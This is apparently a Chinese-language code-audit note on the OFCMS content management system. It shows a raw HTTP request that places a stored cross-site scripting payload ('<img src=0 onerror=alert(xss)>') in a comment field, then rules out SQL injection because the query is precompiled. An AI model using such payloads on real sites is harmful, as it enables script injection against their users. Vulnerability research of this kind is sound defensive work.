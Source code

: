 1.用户评论位置
```
GET /ofcms_admin_war_exploded/api/v1/comment/save.json?comment_content=<img src=0 onerror=alert(xss)>&content_id=53&site_id=1&check_status=1&_=1745329136383 HTTP/1.1

Host: 192.168.31.243:8080

X-Requested-With: XMLHttpRequest

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0

Referer: http://192.168.31.243:8080/ofcms_admin_war_exploded/industry-c-53.html

Cookie: JSESSIONID=81F93566E337B08264384A52819F16A5

Accept: application/json, text/javascript, */*; q=0.01
```
通过定位代码
![[Pasted image 20250422224958.png]]
在save方法中未将数据进行处理直接就存放数据库里了，所以去看下会不会存在sql注入
金国查看，采用了#进行了预编译，所以该处sql不存在
![[Pasted image 20250422224806.png]]